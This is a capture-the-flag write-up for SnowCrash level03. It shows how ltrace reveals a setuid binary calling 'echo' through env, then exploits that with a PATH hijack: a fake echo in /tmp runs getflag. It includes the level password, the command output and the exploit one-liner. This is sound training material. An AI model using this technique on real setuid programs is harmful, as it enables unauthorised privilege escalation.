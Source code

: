 ## level03
```
flag02@SnowCrash:~$ su level03
Password: kooda2puivaav1idi4f57q8iq
level03@SnowCrash:~$
```
```
level03@SnowCrash:~$ ls -al
total 24
dr-x------ 1 level03 level03  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout
-r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
-r-x------ 1 level03 level03  675 Apr  3  2012 .profile
```
Use `ltrace` program that simply runs the specified command until it exits.
It intercepts and records the dynamic library calls as well as the system calls executed by the program.
another you can use `strings`
```
level03@SnowCrash:~$ ltrace ./level03 
__libc_start_main(0x80484a4, 1, 0xbffff7e4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                                                         = 2003
geteuid()                                                                         = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                               = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                               = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                            = 0
+++ exited (status 0) +++
level03@SnowCrash:~$
```
`system("/usr/bin/env echo Exploit me")` shows that echo command is executed without absolute path. This is a common path vulnerability.

So real `echo` can be faked with a script or symlink. For best practice is recommended to execute binaries by absolute path to avoid this type of vulnerability.  
```
level03@SnowCrash:~$ echo /bin/getflag > /tmp/echo && chmod +x /tmp/echo && PATH=/tmp:$PATH
```
```
level03@SnowCrash:~$ ./level03 
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
